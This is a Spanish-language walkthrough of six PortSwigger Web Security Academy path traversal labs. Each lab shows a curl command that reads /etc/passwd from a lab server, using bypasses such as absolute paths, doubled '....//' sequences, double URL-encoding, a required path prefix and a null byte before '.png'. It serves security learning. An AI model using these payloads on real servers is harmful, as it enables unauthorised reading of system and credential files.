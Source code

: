 # Path Traversal

- [Path Traversal](#path-traversal)
  - [Reading arbitrary files via directory traversal](#reading-arbitrary-files-via-directory-traversal)
    - [Lab 1: File path traversal, simple case](#lab-1-file-path-traversal-simple-case)
  - [Common obstacles to exploiting file path traversal vulnerabilities](#common-obstacles-to-exploiting-file-path-traversal-vulnerabilities)
    - [Lab 2: File path traversal, traversal sequences blocked with absolute path bypass](#lab-2-file-path-traversal-traversal-sequences-blocked-with-absolute-path-bypass)
    - [Lab 3: File path traversal, traversal sequences stripped non-recursively](#lab-3-file-path-traversal-traversal-sequences-stripped-non-recursively)
    - [Lab 4: File path traversal, traversal sequences stripped with superfluous URL-decode](#lab-4-file-path-traversal-traversal-sequences-stripped-with-superfluous-url-decode)
    - [Lab 5: File path traversal, validation of start of path](#lab-5-file-path-traversal-validation-of-start-of-path)
    - [Lab 6: File path traversal, validation of file extension with null byte bypass](#lab-6-file-path-traversal-validation-of-file-extension-with-null-byte-bypass)

## Reading arbitrary files via directory traversal

### Lab 1: File path traversal, simple case

En este laboratorio nos indican que la página tiene una vulnerabilidad de path traversal en la visualización de imagenes de los productos. Sacamos el link de alguna de las imágenes para realizar las pruebas.

`https://acec1fab1f1086c6c0ecada300b800d0.web-security-academy.net/image?filename=37.jpg`

Para estos laboratorios variaremos el valor de filename para conseguir leer algún archivo que no deberíamos poder leer(/etc/passwd). Para ello usaremos **curl** o también podemos usar **burp suite**, pero necesitamos ver la respuesta del servidor en un formato crudo.


```bash
curl -i "https://acec1fab1f1086c6c0ecada300b800d0.web-security-academy.net/image?filename=../../../etc/passwd"
```

![path1.png](path1.png)

Si lo probamos en el navegador el mismo enlace nos mostrará que intenta intrepretar la imagen con el resultado, debido a que la respuesta indica que el tipo de archivo que ha enviado en una imágen. Esta "imágen" no tiene el formato de imágen por eso no sabe como leerlo.

## Common obstacles to exploiting file path traversal vulnerabilities

### Lab 2: File path traversal, traversal sequences blocked with absolute path bypass

Para este caso usamos una ruta absoluta en vez de una relativa como el laboratorio anterior.

```bash
curl -i "https://ac2a1f791e91ea97c04202cc00de005a.web-security-academy.net/image?filename=/etc/passwd"
```

![path2.png](path2.png)

### Lab 3: File path traversal, traversal sequences stripped non-recursively

El servidor esta reemplazando ".." con "." y "./" con "/", por lo que si colocamos el doble de
```bash
curl -i "https://ac891fec1fefc508c0446bad00c300c5.web-security-academy.net/image?filename=....//....//....//....//....//etc/passwd"
```

![path3.png](path3.png)

### Lab 4: File path traversal, traversal sequences stripped with superfluous URL-decode
El servidor filtra algunas entradas contra path traversal y sanitiza con una función URL-decode para evitar que ofusquen los simbolos "../", es por ello que ingresamos `../../../etc/passwd` encodificado con URL-encode 2 veces.
```bash
curl -i "https://ac9f1ff81ff79e24c0a82d5d00200087.web-security-academy.net/image?filename=..%252f..%252f..%252fetc/passwd"
```

### Lab 5: File path traversal, validation of start of path

En este caso es necesario que en la entrada este `/var/www/images/` sino filtran la respuesta.
```bash
curl -i "https://acb11fd61fdcf6d0c02a932400b9000e.web-security-academy.net/image?filename=/var/www/images/../../../etc/passwd"
```

### Lab 6: File path traversal, validation of file extension with null byte bypass

En el laboratorio requiere que tenga la extension .png para permitir la consulta. Sin embargo podemos cortar la cadena del nombre con %00 que vendría a ser el caracter nulo que se usa para cerrar una cadena.
```bash
curl -i "https://acf61fbf1e7846a6c0ff09bc000c0038.web-security-academy.net/image?filename=../../../../etc/passwd%00.png"
```
